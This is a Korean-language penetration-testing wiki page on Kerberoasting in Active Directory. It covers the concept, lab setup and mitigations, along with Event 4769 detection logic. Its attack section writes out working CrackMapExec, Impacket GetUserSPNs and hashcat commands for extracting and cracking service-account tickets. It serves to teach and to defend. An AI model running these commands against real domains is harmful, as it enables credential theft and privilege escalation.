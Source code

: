 ```yaml
---
description: MITRE ATTACK - T1558.003
---
```


# 커버로스팅 (Kerberoasting)

커버로스팅은 2014년도 DerbyCon 컨퍼런스에서 Tim Medin 이 발표한 액티브 디렉토리 포스트 익스플로잇 도메인 권한 상승 공격이다.&#x20;

커버로스는 기본적으로 어떤 도메인 유저던 간에 Service Principal Name (SPN) 특성이 존재하는 서비스 유저의 TGS (Ticket Granting Service)를 요청하고 받아낼 수 있다. 이 TGS는 서비스 유저의 NTLM 해시로 암호화 되어 있다. 따라서 `KRB_TGS_REPTGS` 를 받아 TGS를 추출한 뒤, 이를 메모리상에서 빼내서 오프라인 브루트 포스 공격을 감행해, TGS가 복호화가 된다면 서비스 유저의 비밀번호를 찾아내게 된다.&#x20;

### 개념&#x20;

1. 모든 도메인 유저는 SPN 특성이 존재하는 서비스 유저의 TGS를 도메인 컨트롤러에게 요청한 뒤 받을 수 있다.
2. KDC는 공격자가 해당 서비스에 접근 권한이 있는지 없는지 확인하지 않는다. 사용자가 제대로된 TGT를 가지고 있고 TGS 요청을 한다면, KDC 는 그에 맞는 TGS 를 반환할 뿐이다.&#x20;
3. 공격자에게 반환된 TGS는 서비스 유저 계정의 NTLM 해시화된 비밀번호로 RC4-HMAC (혹은 AES256) 암호화가 되어있다. 공격자는 TGS를 메모리에서 추출한 뒤 브루트포스 공격 혹은 사전 공격을 진행한다. 비밀번호 사전으로 NTLM 해시를 만들고, 그 NTLM 해시로 TGS를 복호화 하는데 성공한다면 서비스 계정의 비밀번호를 알아낸 것과 다름이 없게된다.

### 환경 준비&#x20;

도메인 내에 서비스 유저 계정을 만든 뒤, SPN 특성을 부여해준다.&#x20;

```powershell
net user sqladmin Password123! /domain /add 
setspn -A <서비스_이름>/<호스트_FQDN>:<포트> <서비스_계정_이름>

setspn -A MSSQL/dc01.choi.local:31337 sqladmin
```

### 공격

다양한 툴로 커버로스팅 공격을 실행한 뒤, TGS를 base64+해시 형태로 받아온다. 그 뒤, 브루트포스와 TGS 복호화 공격을 실행한다.&#x20;

{% tabs %}
{% tab title="리눅스" %}
CrackMapExec (cme) 나 Impacket의 GetUserSPNs.py를 이용&#x20;

```
# CrackMapExec
cme ldap 192.168.40.150 -u low -p 'Password123!' -d choi.local --kerberoasting kerberoast.hashes

# CrackMapExec - hash
cme ldap 192.168.40.150 -u low -H <NT해시>--kerberoast kerberoast.hashes 

# Impacket - GetUSersSPNs
impacket-GetUserSPNs -request 'choi.local/low:Password123!' -outputfile kerberoast.hash

# impacket - GetUsersSPNs - hash 
impacket-GetUserSPNs -request 'choi.local/low' -hashes <LM해시>:<NT해시> -outputfile kerberoast.hash
```
{% endtab %}

{% tab title="윈도우" %}

{% endtab %}
{% endtabs %}

큰 환경에서 커버로스팅 공격을 실행하면 같은 서비스 유저의 TGS가 중복으로 반환될때가 있다. 특정 서비스 유저의 TGS는 하나의 NTLM 해시로 암호화 되었기 때문에 중복된 TGS를 모두 복호화할 필요는 없다. 하나만 복호화가 되도 유저의 평문 비밀번호를 알아낸 것이다. 따라서 유저의 이름과 도메인을 기반으로 중복 TGS를 지운다.&#x20;

```
# 3번째 필드 - 유저 이름을 기반으로 TGS를 지운다. 
cat kerberoast.hashes | sort -u -k 3,3 -k 4,4
```

### 브루트포스와 TGS 복호화&#x20;

hashcat이나 johntheripper를 사용해 NTLM 해시를 만들고, 복호화하는 브루트포스를 실행한다.&#x20;

```
.\hashcat.exe -a 0 -m 13100 .\kerberoast.hashes .\rockyou.txt
```

## 대응 방안&#x20;

1. [Managed Service Account](https://techcommunity.microsoft.com/t5/ask-the-directory-services-team/managed-service-accounts-understanding-implementing-best/ba-p/397009) (MSA) 기능을 사용해 자동적으로 강력한 비밀번호가 설정되도록 한다.&#x20;
2. MSA 기능을 사용하지 못할 경우 수동으로 강력한 비밀번호를 설정한다.&#x20;
3. [Fine-Grained Password Policy](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/adac/introduction-to-active-directory-administrative-center-enhancements--level-100-#bkmk\_create\_fgpp) (FGPP)를 사용해 서비스 계정에 약한 비밀번호가 설정되는 것을 차단한다.&#x20;
4. 다음의 GPO를 사용해 TGS 암호화를 약한 RC4-HMAC이 아닌 AES256로 설정한다.&#x20;

```
Computer Configuration\Windows Settings\Security Settings\Local Policies\Security Options\Network Security: Configure encryption types allowed for Kerberos 

AES256_HMAC_SHA1 설정
```

### 탐지 방안&#x20;

다음의 탐지 방안은 많은 숫자의 로그를 생성할 수 있으니 프로덕션에 적용하기 전 충분한 테스트를 거쳐야한다.&#x20;

TGS 발급 현황을 로깅하는 다음의 GPO를 설정한다. 이는 Event 4769 - Kerberos Service Ticket was Requested 이벤트를 로깅한다.&#x20;

```
Default Domain Controllers Policy/Computer Configuration/Policies/Windows Settings/Security Settings/Advanced Audit Policy Configuration/Audit Policies/Account Logon/Audit Kerberos Service Ticket Operations - Success
```

이후, 다음의 로직을 기반으로 SOC 알람을 설정한다.&#x20;

1. 이벤트 아이디 4769 중 `Ticket Encryption Type: 0x17` (RC4-HMAC)이 보인다.&#x20;
2. 낮은 권한의 도메인 유저가 빠른 시간 (1\~2분) 내에 대량의 0x17 암호화된 TGS를 요청한다.



### 레퍼런스&#x20;

{% embed url="https://en.hackndo.com/kerberoasting/" %}
&#x20;
{% endembed %}

{% embed url="https://adsecurity.org/?p=3458" %}

{% embed url="https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/decrypting-the-selection-of-supported-kerberos-encryption-types/ba-p/1628797" %}
